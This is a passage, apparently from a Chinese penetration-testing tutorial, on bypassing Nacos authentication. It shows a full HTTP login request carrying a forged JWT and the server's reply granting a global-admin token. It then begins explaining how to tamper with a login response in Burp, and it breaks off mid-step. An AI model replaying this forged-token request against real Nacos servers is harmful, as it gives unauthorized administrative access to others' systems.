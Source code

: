 方框里面需要自行添加：

POST /nacos/v1/auth/users/login HTTP/1.1

Host: 10.211.55.5:8848

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0

Accept: application/json, text/plain, */*

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 33

Origin: http://10.211.55.5:8848

Connection: close

Referer: http://10.211.55.5:8848/nacos/index.html

Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s

username=crowsec&amp;password=crowsec

此时就得到了token信息：

HTTP/1.1 200

Vary: Origin

Vary: Access-Control-Request-Method

Vary: Access-Control-Request-Headers

Content-Security-Policy: script-src ‘self’

Set-Cookie: JSESSIONID=D90CF6E5B233685E4A39C1B1BDA9F185; Path=/nacos; HttpOnly

Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s

Content-Type: application/json

Date: Wed, 15 Mar 2023 14:13:22 GMT

Connection: close

Content-Length: 197

{“accessToken”:“eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s”,“tokenTtl”:18000,“globalAdmin”:true,“username”:“nacos”}

此时就得到了nacos的token信息。

2.利用获取token登录后台

如何登录呢，在这里需要用假账号登录之后，再修改返回包就行了，试试看： 先用假账号登录，用burp拦截：

这肯定进不去的，在这里修改返回包，右键看下这个：
